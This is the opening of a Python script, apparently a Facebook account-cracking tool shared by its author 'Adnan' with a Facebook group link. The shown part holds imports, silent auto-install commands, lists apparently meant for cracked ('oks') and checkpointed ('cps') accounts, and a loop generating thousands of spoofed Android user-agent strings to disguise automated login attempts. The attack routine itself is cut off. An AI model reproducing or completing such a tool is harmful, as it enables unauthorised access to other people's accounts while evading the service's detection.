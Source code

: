 # MAKE BY   Adnan♛
# FB ♛Muhammad Adnan
# FB ♛Adnan
# Facebook Group :https://www.facebook.com/aslam.talha.1?mibextid=ZbWKwL
from bs4 import BeautifulSoup as sop
from concurrent.futures import ThreadPoolExecutor as ThreadPool
import os,sys,time,json,random,re,string,platform,base64,platform,uuid
import requests,random,sys,json,os,re
from time import sleep
from os import system
import os,sys,time,datetime,random,hashlib,re,threading,json,urllib,uuid,ipaddress,calendar,requests,mechanize,bs4,sys,os,subprocess,uuid,requests,sys,random,time,re,base64,json,platform
import marshal
import zlib
import base64
from random import random as acak
from random import choice as pilih
from random import randint
from bs4 import BeautifulSoup
import requests as ress
from sys import exit as exit
try:
    import requests
except ImportError:
    print('\n [✓] installing requests !...\n')
    os.system('pip install requests')
try:
    import concurrent.futures
except ImportError:
    print('\n [✓] installing futures !...\n')
    os.system('pip install futures')
try:
    import bs4
except ImportError:
    print('\n [✓] installing bs4 !...\n')
    os.system('pip install bs4')
    os.system('pkg install espeak')
P = '\x1b[1;97m' # 
M = '\033[1;33m' # 
H = '\033[1;32m' # 
K = '\x1b[1;97m' # 
B = '\x1b[1;96m' # 
U = '\x1b[1;95m' # 
O = '\x1b[1;97m' # 
N = '\x1b[0m'    # 
id = []
user = []
oks = []
cps = []
loop = 0
ugen=[]
for xd in range(5000):
    a='Mozilla/5.0 (Linux; Android'
    b=random.choice(['4','5','6','7','8','9','10','11','12','13','14','15','16'])
    c='RMX3191 Build/RP1A.200720.011; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome'
    d=random.randrange(10,200)